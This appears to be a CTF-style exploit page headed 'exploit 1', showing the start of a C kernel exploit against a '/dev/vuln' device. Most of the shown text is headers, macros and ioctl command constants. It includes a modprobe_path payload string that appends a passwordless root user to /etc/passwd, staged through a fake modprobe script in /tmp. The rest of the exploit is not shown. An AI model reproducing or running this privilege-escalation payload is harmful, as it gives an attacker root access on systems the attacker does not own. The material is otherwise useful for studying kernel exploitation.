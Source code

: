 ## exploit 1

![Screenshot_20250509_113355.png](Screenshot_20250509_113355.png)

```c
#define _GNU_SOURCE

#include <assert.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/prctl.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/ioctl.h>
#include <sys/socket.h>
#include <sys/mman.h>
#include <sys/msg.h>
#include <poll.h>
#include <unistd.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>

#define MODULE_NAME "/dev/vuln"
#define MODPROBE_SCRIPT "#!/bin/sh\necho pwn::0:0:root:/root:/bin/sh>>/etc/passwd\n"
#define PROC_NAME "NKTIDKSG"

#define MODPROBE_FAKE "/tmp/810114514"

#define COLOR_RESET "\033[0m"
#define COLOR_RED "\033[0;31m"
#define COLOR_GREEN "\033[0;32m"
#define COLOR_YELLOW "\033[0;33m"
#define COLOR_BLUE "\033[0;34m"
#define COLOR_MAGENTA "\033[0;35m"
#define COLOR_CYAN "\033[0;36m"

#define info(fmt, ...) \
    printf(COLOR_CYAN "[*] " fmt COLOR_RESET "\n", ##__VA_ARGS__)
#define success(fmt, ...) \
    printf(COLOR_GREEN "[+] " fmt COLOR_RESET "\n", ##__VA_ARGS__)
#define error(fmt, ...) \
    printf(COLOR_RED "[-] " fmt COLOR_RESET "\n", ##__VA_ARGS__)
#define warning(fmt, ...) \
    printf(COLOR_YELLOW "[!] " fmt COLOR_RESET "\n", ##__VA_ARGS__)

#define SYSCHK(x) ({ \
    typeof(x) __res = (x); \
    if (__res == (typeof(x))-1) { \
    fprintf(stderr, "%s: %s\n", "SYSCHK(" #x ")", strerror(errno)); \
    exit(1); \
    } \
    __res; \
    })

#define CMD_ALLOC 0xf000
#define CMD_WRITE 0xf001
#define CMD_FREE 0xf002
```